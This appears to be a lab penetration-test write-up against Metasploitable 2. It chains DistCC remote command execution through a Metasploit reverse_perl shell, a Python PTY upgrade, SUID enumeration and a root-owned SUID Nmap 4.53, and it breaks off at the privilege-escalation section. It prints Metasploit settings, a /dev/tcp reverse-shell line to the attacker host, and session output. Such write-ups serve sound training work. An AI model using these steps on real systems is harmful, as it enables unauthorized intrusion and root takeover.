










# Incident 17 — DistCC Remote Code Execution to Root Privilege Escalation

**Offensive Security | Network Penetration Testing | Linux Privilege Escalation**

## Executive Summary

This case study documents a successful end-to-end penetration test against **Metasploitable 2**, an intentionally vulnerable Linux system deployed in an authorized VirtualBox laboratory.

The assessment identified an exposed DistCC service vulnerable to remote command execution. Exploitation established an initial reverse shell under the low-privileged `daemon` account.

Post-exploitation enumeration subsequently revealed a root-owned **Nmap 4.53 executable with the SUID bit enabled**. Its legacy interactive mode allowed arbitrary command execution with an effective user ID of zero.

By chaining these two independent security weaknesses, I demonstrated a complete attack path from network access to a shell operating with effective root privileges.

**Final outcome: Remote Code Execution → Initial Access as `daemon` → SUID Privilege Escalation → EUID 0 (`root`)**

### Assessment Summary

| Category | Result |
|---|---|
| Target | Metasploitable 2 |
| Initial Access | DistCC Remote Command Execution |
| Vulnerability | CVE-2004-2687 |
| Vulnerable Port | TCP 3632 |
| Exploitation Framework | Metasploit Framework |
| Initial Account | `daemon` (UID 1) |
| Privilege Escalation | SUID-enabled Nmap 4.53 |
| Final Access | Shell with EUID 0 (`root`) |
| Validation | Identity and protected-resource access |
| Status | Successfully demonstrated in an authorized laboratory |

---

## 1. Laboratory Environment

The assessment was performed exclusively against an intentionally vulnerable virtual machine.

| Component | Configuration |
|---|---|
| Attacking System | Kali Linux |
| Attacker IP | `172.30.1.20` |
| Attacker Interface | `eth1` |
| Target System | Metasploitable 2 |
| Target IP | `172.30.1.22` |
| Network | `172.30.1.0/24` |
| Virtualization | Oracle VirtualBox |
| Metasploit | 6.5.3-dev |
| Target Operating System | Legacy Ubuntu-based Linux, 32-bit |
| Target Kernel | `2.6.24-16-server` |

The attacker and target communicated through the authorized laboratory network.

For network scanning, a custom Python wrapper named `labnmap` was used to validate target IP addresses against an allowlist of laboratory networks.

**Scope:** All active testing documented in this case study was directed at `172.30.1.22`.

### Tools

- Nmap
- SearchSploit / Exploit Database
- Metasploit Framework
- Python
- Bash
- Linux filesystem and permission utilities

---

## 2. Attack Chain Overview

```text
Kali Linux — 172.30.1.20
              |
              | Network Service Enumeration
              v
Metasploitable 2 — 172.30.1.22
              |
              v
TCP 3632 — DistCC Daemon
              |
              | CVE-2004-2687
              v
Remote Command Execution
              |
              | Metasploit: cmd/unix/reverse_perl
              v
Reverse Shell — daemon (UID 1)
              |
              | Post-Exploitation Enumeration
              v
SUID Binary Discovery
              |
              v
/usr/bin/nmap — Nmap 4.53
Owner: root | SUID: enabled
              |
              | --interactive
              | !sh
              v
Privileged Shell
UID = 1 (daemon)
EUID = 0 (root)
              |
              v
Protected Resource Access Validated
```

The initial foothold and subsequent privilege escalation were caused by separate weaknesses.

The DistCC vulnerability provided remote command execution. The local SUID misconfiguration enabled execution with effective root privileges.

---

## 3. Reconnaissance — Network Service Discovery

### Objective

Identify exposed services and potential entry points on Metasploitable 2.

### Full TCP Enumeration

A full TCP scan was performed using service detection and Nmap default scripts:

```bash
labnmap -sS -sC -sV -p- -T4 172.30.1.22
```

The scan identified **30 open TCP ports**, including FTP, SSH, Telnet, HTTP, SMB, NFS, MySQL, PostgreSQL, and other services.

One service was selected for further analysis:

```text
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

### Targeted Verification

```bash
labnmap -sV -p 3632 172.30.1.22
```

Observed:

```text
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

The targeted scan confirmed that the DistCC daemon was reachable from the attacking machine.

**Evidence — Nmap Service Discovery**



**Finding:** DistCC was exposed over TCP port 3632.

---

## 4. Vulnerability Research — DistCC

### Service Background

DistCC is a distributed compilation system designed to distribute C/C++ compilation tasks across multiple computers.

The `distccd` daemon receives compilation requests from remote clients.

Historically vulnerable deployments may permit remote clients to manipulate the compilation request mechanism and execute unintended operating system commands.

### Identified Vulnerability

**CVE-2004-2687 — DistCC Daemon Command Execution**

The vulnerability permits remote command execution in affected DistCC daemon configurations.

The impact of a successful exploit initially depends on the privileges assigned to the running daemon.

### Exploit Research

Research was performed locally using SearchSploit:

```bash
searchsploit distcc
```

Result:

```text
DistCC Daemon - Command Execution (Metasploit)
multiple/remote/9915.rb
```

The Exploit Database entry provided a reference to an existing Metasploit exploitation module.

At this stage, the vulnerability was a candidate finding. Service identification alone was not sufficient to prove exploitability.

**Evidence — Vulnerability Research**



### References

- [CVE-2004-2687 — NIST National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2004-2687)
- [Exploit-DB — DistCC Daemon Command Execution](https://www.exploit-db.com/exploits/9915)
- [Metasploit Framework](https://github.com/rapid7/metasploit-framework)

---

## 5. Exploitation — DistCC Remote Command Execution

### Objective

Validate the suspected vulnerability and obtain initial remote command execution on the target.

### Exploit Module

The following Metasploit module was selected:

```text
exploit/unix/misc/distcc_exec
```

### Payload Compatibility Issue

Metasploit initially selected the default payload:

```text
cmd/unix/reverse_bash
```

The initial attempts failed with errors related to `/dev/tcp`:

```text
bash: /dev/tcp/172.30.1.20/4444: No such file or directory
```

The failure indicated a compatibility problem with the Bash-based reverse connection mechanism in the target environment.

This did not establish that the DistCC exploit itself was ineffective.

The payload was changed to:

```text
cmd/unix/reverse_perl
```

The Perl-based payload successfully established a reverse command shell.

### Working Metasploit Configuration

```text
use exploit/unix/misc/distcc_exec
set PAYLOAD cmd/unix/reverse_perl
set RHOSTS 172.30.1.22
set RPORT 3632
set LHOST 172.30.1.20
set LPORT 4444
show options
```

| Parameter | Value | Description |
|---|---|---|
| `RHOSTS` | `172.30.1.22` | Target address |
| `RPORT` | `3632` | Vulnerable service port |
| `LHOST` | `172.30.1.20` | Reverse connection listener |
| `LPORT` | `4444` | Local listening port |
| `PAYLOAD` | `cmd/unix/reverse_perl` | Reverse shell implementation |

**Evidence — Metasploit Configuration**



### Successful Exploitation

The module was executed:

```text
exploit
```

Observed output:

```text
[*] Started reverse TCP handler on 172.30.1.20:4444
[*] Command shell session 1 opened
    (172.30.1.20:4444 -> 172.30.1.22:38762)
```

A remote command shell was successfully established.

**Result: DistCC Remote Command Execution confirmed.**

---

## 6. Initial Access — daemon Account

### Objective

Determine the identity and privileges of the remote shell.

The following commands were executed through the established Metasploit session:

```bash
whoami
id
hostname
```

Observed output:

```text
daemon
uid=1(daemon) gid=1(daemon) groups=1(daemon)
metasploitable
```

### Analysis

The exploit provided command execution under the Linux service account `daemon`.

The shell did not initially possess administrative privileges.

This distinction is important because a successful remote code execution vulnerability does not necessarily provide root-level access.

The access level initially reflects the privileges available to the compromised service.

**Evidence — Initial Access**



**Result:** Remote shell established as `daemon`, UID 1.

---

## 7. Reverse Shell Improvement — Python PTY

### Objective

Improve command-shell interaction before conducting post-exploitation enumeration.

The initial reverse shell lacked a conventional prompt and offered limited terminal functionality.

### PTY Creation

Python was available on the target.

The following command was executed inside the remote shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

This produced:

```text
daemon@metasploitable:/tmp$
```

Additional terminal settings were applied:

```bash
export TERM=xterm
stty -echo
```

`TERM=xterm` configured the declared terminal type.

`stty -echo` was used to reduce duplicated input echo from the remote pseudo-terminal.

Some terminal input/output inconsistencies remained because of the underlying session transport.

### Technical Distinction

A reverse shell provides a remote command channel.

A PTY improves the interactive environment associated with that shell.

**Creating a PTY does not change the user account or elevate privileges.**

**Evidence — PTY Upgrade**



---

## 8. Post-Exploitation Enumeration

### Objective

Identify potential paths from the low-privileged `daemon` account to a higher-privileged execution context.

### Operating System Identification

The following commands were used:

```bash
uname -a
cat /etc/issue
```

The target reported an older Linux kernel:

```text
Linux metasploitable 2.6.24-16-server
#1 SMP Thu Apr 10 13:58:00 UTC 2008
i686 GNU/Linux
```

The outdated operating system was relevant to vulnerability research but did not, by itself, establish a working local escalation vulnerability.

### Filesystem Permissions

Directory permissions were examined:

```bash
ls -ld /tmp /root /home/msfadmin
```

Observed:

```text
drwxr-xr-x msfadmin msfadmin /home/msfadmin
drwxr-xr-x root     root     /root
drwxrwxrwt root     root     /tmp
```

The `/tmp` directory was writable by ordinary users and protected with the sticky bit.

The next step focused on identifying executables configured with elevated effective privileges.

---

## 9. SUID Enumeration

### Objective

Identify programs that could execute with the privileges of their file owners instead of the privileges of the calling user.

### Enumeration Command

```bash
find /usr/bin /usr/sbin /bin /sbin -type f -perm -4000 2>/dev/null
```

### Command Breakdown

| Expression | Purpose |
|---|---|
| `find` | Search the filesystem |
| `/usr/bin /usr/sbin /bin /sbin` | Target search directories |
| `-type f` | Match regular files |
| `-perm -4000` | Match executables with the SUID bit set |
| `2>/dev/null` | Suppress error messages |

The search identified several SUID-enabled programs.

Among the results:

```text
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/nmap
/bin/su
/bin/mount
```

The presence of `/usr/bin/nmap` was particularly interesting because older Nmap releases included an interactive command-execution feature.

**Evidence — SUID Enumeration**



**Candidate identified:** `/usr/bin/nmap`.

---

## 10. Nmap SUID Misconfiguration

### Permission Analysis

The following command was executed:

```bash
ls -l /usr/bin/nmap
```

Observed result:

```text
-rwsr-xr-x 1 root root 780676 Apr 8 2008 /usr/bin/nmap
```

The file was owned by `root` and had the SUID bit enabled.

### Interpreting the Permissions

```text
-rwsr-xr-x
   ^
   SUID
```

SUID (*Set User ID*) allows an executable, under the applicable operating system conditions, to run with the effective identity of its file owner.

For this executable:

- File owner: `root`
- File group: `root`
- SUID: enabled
- Execution permitted for other users

When `daemon` executed this program, the Nmap process could acquire an effective user ID of zero.

### Installed Version

The installed version was identified as:

```text
Nmap 4.53
```

This legacy release supported:

```bash
/usr/bin/nmap --interactive
```

Its interactive mode included functionality for executing external operating system commands.

The security issue was the combination of:

**SUID root + legacy interactive command execution**

SUID itself is a legitimate Linux feature. The vulnerability arose because elevated privileges were exposed through a program capable of executing arbitrary external commands.

**Evidence — Nmap Version and Permissions**



---

## 11. Local Privilege Escalation

### Objective

